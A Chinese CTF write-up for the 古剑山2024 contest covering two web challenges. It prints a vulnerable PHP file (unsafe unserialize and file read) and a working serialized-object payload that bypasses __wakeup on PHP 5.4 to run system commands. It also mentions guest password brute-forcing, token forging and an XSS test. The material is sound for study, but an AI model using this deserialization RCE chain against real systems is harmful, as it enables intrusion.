



+++
title = "古剑山2024"
slug = "gujianshan-2024"
description = ""
date = "2024-11-30T14:20:53"
lastmod = "2024-11-30T14:20:53"
image = ""
license = ""
categories = ["赛题"]
tags = []
+++

# question

## un

一个简单的反序列化，首先是一个任意文件读取，我们拿到`index.php`

```php
<?php

error_reporting(0);

class pop
{
    public $aaa;
    public static $bbb = false;

    public function __wakeup()
    {
        // PHP 5.4
        throw new Exception("You're banned to serialize pop!");    
    }

    public function __destruct()
    {
        for ($i=0; $i<2; $i++) {
            if (self::$bbb) {
                $this->aaa[1]($this->aaa[2]);
            } else {
                self::$bbb = call_user_func($this->aaa["object"]);
            }
        }
    }
}


if (isset($_GET["code"])) {
    unserialize(base64_decode($_GET["code"]));
} elseif (isset($_GET["f"])) {
    if(is_string($_GET["f"]) === false){
        echo "The f param must be string";
        exit();
    }
    $user_f = $_GET["f"];
    $regex = "/[ <>?!@#$%&*()+=|\\-\\\\}{:\";'~`,\\/]/";
    if(preg_match($regex, $user_f)){
        echo "The ".$user_f." has been detected by regular expression: ".$regex;
        exit();
    }
    echo file_get_contents($user_f);
}else{
    echo "<a href='/index.php?f=secret'>show me secret!</a>";
}
```

很明显写文件这条路不是很好走，直接可以尝试调用恶意函数，不过这里使用的是利用函数返回结果为true来赋值`$bbb`，随便找个函数就行

```php
<?php
class pop{
    public $aaa;
    public static $bbb = false;
}
$a=new pop();
$a->aaa=array(
    "object"=>"session_start",
    "1"=>"system",
    "2"=>"whoami"
);
echo base64_encode(serialize($a));
```

这里我们调试一下，

```php
<?php
class pop
{
    public $aaa;
    public static $bbb = false;

    public function __wakeup()
    {
        // PHP 5.4
        throw new Exception("You're banned to serialize pop!");
        echo "awkeup<br>";
    }

    public function __destruct()
    {
        echo "destruc<br>";
        for ($i=0; $i<2; $i++) {
            if (self::$bbb) {
                $this->aaa[1]($this->aaa[2]);
            } else {
                self::$bbb = call_user_func($this->aaa["object"]);
            }
        }
    }
}

$a=new pop();
$a->aaa=array(
    "object"=>"session_start",
    "1"=>"system",
    "2"=>"whoami"
);
//echo base64_encode(serialize($a));
unserialize(serialize($a));
```

首先当版本为7.4.3时，反序列化之后直接跳转到wakeup这样子是对的，



但是当我们把版本切换为5.4.45时



可以看到就是说，在正常的进入了destruct，而后续赋值我们也不用看了，所以成功RCE

## two

这道题就说说过程吧，没打通，首先进入之后爆破密码

```
guest::123456
```

然后进入之后经过测试发现search不要token，而submit要token

同时token只是一个base64，直接进行替换即可，问题来了，这里是sql注入还是xss，经过测试发现是xss

```
<script>alert(1)<script>
```

但是做了一会儿啥也没有得到换了几个payload，但是都不是poc都没有成功



等出了官方wp浮现一下这两个题，看看是实力题还是抽象题
